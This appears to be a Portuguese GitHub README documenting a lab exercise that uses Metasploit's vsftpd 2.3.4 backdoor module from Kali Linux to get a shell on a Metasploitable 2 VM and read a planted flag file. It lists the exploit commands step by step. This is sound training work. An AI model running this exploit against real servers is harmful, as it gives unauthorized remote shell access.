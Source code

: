 # Explorar falhas no protocolo FTP

Este projeto demonstra como explorar uma vulnerabilidade no protocolo FTP utilizando o Metasploit para acessar um arquivo em uma máquina vulnerável.

## Objetivo

Encontrar e acessar um arquivo de texto criado em uma máquina virtual vulnerável (Metasploitable) através de uma outra máquina (Kali Linux).

## Ferramentas Utilizadas

- **Kali Linux**
- **Metasploitable 2** (máquina vulnerável)
- **Metasploit Framework**

## Procedimento

### 1. Criar um arquivo na VM vulnerável
Na máquina Metasploitable, criei um arquivo `flag.txt` com o seguinte conteúdo:
```bash
"teste de penet"
```

Comando para criar o arquivo:
```bash
echo "teste de penet" > flag.txt
```

Localização do arquivo: `/home/msfadmin/flag.txt`

![image](https://github.com/user-attachments/assets/32125f40-a630-43a3-88dd-51a30129e13e)

### 2. Configuração do Metasploit na Kali Linux

No Kali Linux, execute os seguintes passos:

1. Abra o Metasploit com o comando:
   ```bash
   msfconsole
   ```

2. Escolha o exploit `vsftpd_234_backdoor`:
   ```bash
   use unix/ftp/vsftpd_234_backdoor
   ```

3. Configure o IP de destino (a máquina vulnerável):
   ```bash
   set rhosts 192.168.56.101
   ```

4. Verifique as opções configuradas:
   ```bash
   show options
   ```

5. Configure o payload para interagir com o sistema:
   ```bash
   set payload payload/cmd/unix/interact
   ```

6. Execute o exploit:
   ```bash
   exploit
   ```

7. Verifique o IP para confirmar que é o mesmo da VM vulnerável:
   ```bash
   ip addr
   ```
![image](https://github.com/user-attachments/assets/d85d9068-0325-4119-9d44-f996563bdc13)

### 3. Acessar o arquivo na máquina vulnerável

1. Navegue até o diretório do arquivo:
   ```bash
   ls
   cd home
   cd msfadmin
   ls
   ```

2. Abra o arquivo para ler o conteúdo:
   ```bash
   nano flag.txt
   ```
![image](https://github.com/user-attachments/assets/e311aa74-63ce-4d6e-a576-e00f04fc1724)

## Resultados

Conseguimos localizar e acessar o arquivo `flag.txt` com sucesso através do Metasploit.

---

**Nota:** Este experimento foi realizado em um ambiente controlado para fins educacionais.

